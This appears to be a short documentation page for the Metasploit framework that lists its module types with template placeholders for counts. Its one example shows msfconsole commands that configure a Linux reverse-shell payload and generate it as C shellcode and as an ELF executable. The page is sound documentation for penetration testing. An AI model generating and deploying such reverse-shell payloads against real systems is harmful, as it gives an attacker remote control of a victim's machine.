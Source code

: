 ## Metasploit modules
## Module types
### Auxiliary modules ({{ site.metasploit_module_counts["auxiliary"] }})
### Encoder modules ({{ site.metasploit_module_counts["encoder"] }})
### Evasion modules ({{ site.metasploit_module_counts["evasion"] }})
### Exploit modules ({{ site.metasploit_module_counts["exploit"] }})
### Nop modules ({{ site.metasploit_module_counts["nop"] }})
### Payloads modules ({{ site.metasploit_module_counts["payload"] }})
Payload modules can also be used individually to generate standalone executables, or shellcode for use within exploits:
```msf
msf6 payload(linux/x86/shell_reverse_tcp) > back
msf6 > use payload/linux/x86/shell_reverse_tcp
msf6 payload(linux/x86/shell_reverse_tcp) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 payload(linux/x86/shell_reverse_tcp) > set lport 4444
lport => 4444

# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
```

